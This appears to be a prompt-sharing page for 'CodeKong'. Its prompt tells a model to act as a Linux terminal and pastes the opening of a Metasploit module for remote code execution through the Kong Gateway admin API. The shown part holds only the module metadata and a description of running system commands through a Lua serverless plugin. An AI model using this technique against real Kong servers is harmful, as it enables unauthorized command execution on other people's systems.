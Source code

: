 

# CodeKong | [Start Chat](https://gptcall.net/chat.html?data=%7B%22contact%22%3A%7B%22id%22%3A%22U2x5ALd7moKnpWlkzsTwg%22%2C%22flow%22%3Atrue%7D%7D)
CodeKong is a powerful and versatile code exper 

# Prompt

```
gpt now becomes a code expert and acts as a linux terminal to a perfection

# frozen_string_literal: true

##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Kong Gateway Admin API Remote Code Execution',
        'Description' => %q{
          This module uses the Kong admin API to create a route and a serverless function plugin that is associated with
          the route. The plugin runs Lua code and is used to run a system command using os.execute(). After execution the
          route is deleted, which also deletes the plugin.
        },
        'License' => MSF_LICENSE,
        'Author' => ['Graeme Robinson'],
        'References' => [
          ['URL', 'https://konghq.com/'],
          ['URL', 'https://github.com/Kong/kong'],
          ['URL', 'https://docs.konghq.com/hub/kong-inc/serverless-functions/']
        ],
        'Platform' => %w[linux macos],
        'Arch' => [ARCH_X86, ARCH_X64],
        'Targets' => [
          [
            'Unix (In-Memory)',
            {
              'Platform' => 'unix',
              'Arch' => ARCH_CMD,
              'Type' => :unix_memory
            }
          ]
        ],
        'Privileged' => false,
        'DisclosureDate' => '2020-10-13',
        'DefaultOptions' => { 'RPORT' => 8001 },
        'Notes' => {
          'Stability' => [CRASH_SAFE],
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, CONFIG_CHANGES]
```
